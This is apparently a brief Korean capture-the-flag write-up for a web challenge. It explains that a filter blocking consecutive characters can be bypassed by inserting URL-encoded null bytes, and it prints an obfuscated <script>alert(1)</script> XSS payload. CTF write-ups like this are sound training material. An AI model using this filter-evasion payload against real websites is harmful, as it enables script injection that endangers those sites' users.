



웹 

간단한 인코딩문제



붙어있는 문자열 2개이상을 넣으면 no hack 으로 뜨는데 아래 script를 삽입해야하는 문제



붙어있는 문자열은 null값을 통해 우회가능

null URL encoding value = %00
```
<s%00c%00r%00i%00p%00t>a%00l%00e%00r%00t(1);</s%00c%00r%00i%00p%00t>
```

